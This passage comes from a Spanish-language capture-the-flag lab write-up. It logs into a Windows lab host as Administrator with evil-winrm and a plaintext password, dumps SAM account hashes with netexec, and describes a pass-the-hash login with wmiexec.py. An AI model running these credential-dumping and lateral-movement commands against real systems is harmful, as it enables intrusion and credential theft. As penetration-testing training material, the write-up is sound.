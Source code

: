 ### ShellOver Evil-WinRM

Procederemos a conectarnos con **evil-winrm** al equipo con el usuario Adminsitrator y sus respectivas credenciales. Verificaremos la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'
```

<figure><img src="../../../../../.gitbook/assets/1011_vmware_LlBYmR1qim.png" alt=""><figcaption></figcaption></figure>

### Dumping hashes of accounts with Netexec

Por otra parte, obtenida la contraseña del usuario Administrator, podemos dumpear todos los hashes de los usuarios del equipo a través de **netexec** para luego realizar un PassTheHash sin conocer las credenciales de los usuarios.

{% code overflow="wrap" %}
```bash
netexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP --sam 2>/dev/null
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/1015_vmware_0DoeQTowcd.png" alt=""><figcaption></figcaption></figure>

### PassTheHash with wmiexec.py

Probaremos con **wrmiexec.y** de acceder con el usuario Administrator y su respectivo hash NTLM al equipo, comprobamos que podemos acceder sin saber la contraseña del usuario Administrator. Esto lo podríamos realizar con el resto de usuarios que disponemos de su hash NTLM.
